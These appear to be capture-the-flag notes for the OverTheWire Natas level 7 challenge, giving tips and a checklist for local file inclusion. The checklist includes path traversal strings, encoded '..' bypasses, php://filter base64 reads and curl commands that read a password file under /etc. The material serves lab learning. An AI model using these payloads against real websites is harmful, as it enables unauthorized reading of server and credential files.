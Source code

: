 # Small notes and tips
- If the site replaces ../ or blocks it, try encoding .. and / as %2e%2e and %2f.
- Always check page source to find parameter names (maybe not page but file or inc).
- If you get HTML but the file is inside HTML, look for the password text inside the HTML source.
- If you get permission denied or blank, the server might block reading /etc. Try other tricks or a different parameter.
- Always use these only in the lab (like OverTheWire / Natas). Doing this on real websites without permission is illegal.

# Checklist you can follow (copy and use)
1. Try: http://HOST/?page=/etc/natas_webpass/natas8
2. Try traversal: http://HOST/?page=../../../../etc/natas_webpass/natas8
3. Try php filter: http://HOST/?page=php://filter/convert.base64-encode/resource=/etc/natas_webpass/natas8
4. If base64 -> echo "BASE64" | base64 --decode
5. If auth needed -> curl -s -u natas7:CURRENT_PASSWORD "http://HOST/?page=..."
6. If POST needed -> curl -s -u natas7:CURRENT_PASSWORD -d "page=/etc/natas_webpass/natas8" "http://HOST/..."
